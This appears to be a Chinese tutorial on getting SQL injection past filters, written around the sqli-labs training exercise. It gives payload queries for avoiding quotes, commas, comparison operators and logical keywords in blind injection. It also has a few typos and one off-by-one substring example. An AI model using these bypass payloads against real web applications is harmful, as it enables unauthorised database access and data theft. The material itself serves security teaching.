 http://127.0.0.1/sqli/Less-26/?id=1'and(1=2)#

# 引号绕过(使用16进制)

使用16进制绕过引号。一般会使用到引号的地方是在最后的where子句中，比如

select * from test where username=' admin '; 
select * from test where username=" admin ";

当引号被过滤了的话， 'admin'就没法用了，我们可以用admin的16进制 0x61646d696e 代替。

select *f rom test where username=0x61646d696e;

# 逗号绕过(使用from for或者offset)

在使用盲注的时候，会使用到 substring(),mid(), limit 等函数。这些函数都需要用到逗号。如果只是过滤了逗号，则对于substring()和mid()这两个函数可以使用
from  for的方式来绕过。对于limit ，可以用 offset 绕过。

// substring() 逗号绕过
select * from test where id=1 and (select ascii(substring(username,2,1)) from admin limit 1)>97;
select * from test where id=1 and (select ascii(substring(username from 2 for 1))from admin limit 1)>97;
 
 
// mid() 逗号绕过
select * from test where id=1 and (select ascii(mid(username,2,1)) from admin limit 1)>97;
select * from test where id=1 and (select ascii(mid(username from 2 for 1))from admin limit 1)>97;
 
// limit 逗号绕过
select * from test where id=1 limit 1,2; 
select * from test where id=1 limit 2 offset 1;

# 比较符< >绕过（使用greatest() 、least()）

 在使用盲注的时候，会用到二分法来比较操作符来进行操作。如果过滤了比较操作符，那么就需要使用到 greatest()和lease（）来进行绕过。greatest()返回最大值，least()返回最小值。

greatest(n1,n2,n3.....)返回输入参数的最大值；

least(n1,n2,n3....)返回输入参数的最小值

select * from test where id=1 and ascii(substring(database(),0,1))>64;
select * from test where id=1 and greatest(ascii(substring(database(),0,1)),64)=64

# or and xor not绕过

and用 && 代替 ；or用 || 代替 ； xor用 | 代替 ； not用 ! 代替

select * from test where id=1 and 1=2;
select * from test where id=1 && 1=2；
 
select * from test where id=1 or 1=2;
select * from test where id=1 || 1=2;

